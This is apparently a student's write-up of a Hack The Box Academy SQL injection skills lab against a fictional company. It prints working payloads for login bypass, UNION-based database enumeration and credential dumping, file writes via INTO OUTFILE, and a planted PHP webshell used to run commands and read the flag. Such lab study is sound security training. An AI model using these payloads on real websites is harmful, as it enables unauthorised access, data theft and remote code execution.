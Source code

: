 ```yaml
---
sticker: lucide//database-backup
---
```

The company `Inlanefreight` has contracted you to perform a web application assessment against one of their public-facing websites. In light of a recent breach of one of their main competitors, they are particularly concerned with SQL injection vulnerabilities and the damage the discovery and successful exploitation of this attack could do to their public image and bottom line.

They provided a target IP address and no further information about their website. Perform a full assessment of the web application from a "grey box" approach, checking for the existence of SQL injection vulnerabilities.

![image](https://academy.hackthebox.com/storage/modules/33/sqli_skills.png)

Find the vulnerabilities and submit a final flag using the skills we covered to complete this module. Don't forget to think outside the box!

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250203155825.png)

# Bypassing the login page
---

First thing we face is the login page, we can begin this assessment by checking the source code: `CTRL+U`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250203155958.png)

They haven't forgotten about any credentials or anything related, next thing in mind is trying the most simple SQLI payload:

```
' OR '1'='1'-- -
```

We can try this in the username section:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250203160114.png)

To our surprise, we were able to successfully log in:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250203160137.png)

# Database enumeration
---

We can go along with our roleplay, this part is not strictly related to the path intended to obtain the flag, but we can take advantage of the roleplay relating the company assessment and enumerate the database a little bit.

We are inside a dashboard panel, nothing seems off but the first thing we can notice is a search bar on the top right of the screen:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250203160237.png)

From previous modules, we found the way to enumerate the database, we can try the following:

## Columns number
---

We can enumerate the number of columns by using `ORDER BY`:

```
' order by 1-- -
```

We need to increase the number until we get an error specifying we're off the number of columns, let's automatize this by sending the request to burp's intruder and using it in the following way:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250203160644.png)



![](CYBERSECURITY/IMAGES/Pasted%20image%2020250203160804.png)

After checking the responses we can see the following:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250203161026.png)

Error message starts in `6`, so, the number of columns is `5`.

Knowing this, we can start next step.

## Union Injection
---

We can use the following to check if the Union Injection is working:

```sql
cn' UNION select 1,@@version,3,4,5-- -
```

We are using this since we know the number of columns, we'll get the following output:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250203161321.png)

So it indeed works, now we can begin to read the database:

```sql
cn' UNION select 1,schema_name,3,4,5 from INFORMATION_SCHEMA.SCHEMATA-- -
```

We get the following:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250203161420.png)

The `backup` table seems interesting, we can check it out:

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES where table_schema='backup'-- -
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250203161536.png)

We see the following, `admin_bk`, we can enumerate the columns in `admin_bk` using this:

```sql
cn' UNION SELECT 1,COLUMN_NAME,DATA_TYPE,4,5 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA='backup' AND TABLE_NAME='admin_bk'-- -
```

We will see the following:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250203162243.png)

Got `username` and `password`, let's read it:

```sql
cn' UNION SELECT 1,username,password,4,5 FROM backup.admin_bk-- -
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250203162347.png)

Got credentials:

```ad-important
`admin`:`Inl@n3_fre1gh7_adm!n`
```

# Now, Let's go for our flag
---

Nice, this was just an scenario to enumerate the risks of this vulnerability on the system, since in the roleplay we are doing an assessment for a company, it was important to check the enumeration part.

For our flag, we can simply try to upload a webshell in the following way.

## Checking our write privileges
---

We can check if we have high privileges with this:

```sql
' UNION SELECT 1, super_priv, 3, 4, 5 FROM mysql.user-- -
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250203163116.png)

We can check we got `Y`, which stands for yes, meaning we have privileges, in order to write files, three conditions must be there:

```ad-important
1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server
```

Let's check if `secure_file_priv` variable is not enabled:

```sql
' UNION SELECT 1, variable_name, variable_value, 4, 5 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250203163254.png)

Value is empty, which means it is not enabled.

We can test writing with the following:

```sql
' union select 1,'file written successfully!',3,4,5 into outfile '/var/www/html/dashboard/proof.txt'-- -
```

If we visit `/proof.txt`, we can check the following:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250203163428.png)

We've written successfully, we can now write our webshell in the following way:

```
' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/dashboard/webshell.php'-- -
```

We can confirm it worked by going to:

`http://IP:PORT/dashboard/webshell.php?0=id`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250203164153.png)

Let's list the `/` directory: `ls+/`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250203164320.png)


We can see the flag, we can simply read it by using `cat+/flag_cae1dadcd174.txt`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250203164435.png)

Got our flag: `528d6d9cedc2c7aab146ef226e918396`


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250203164504.png)


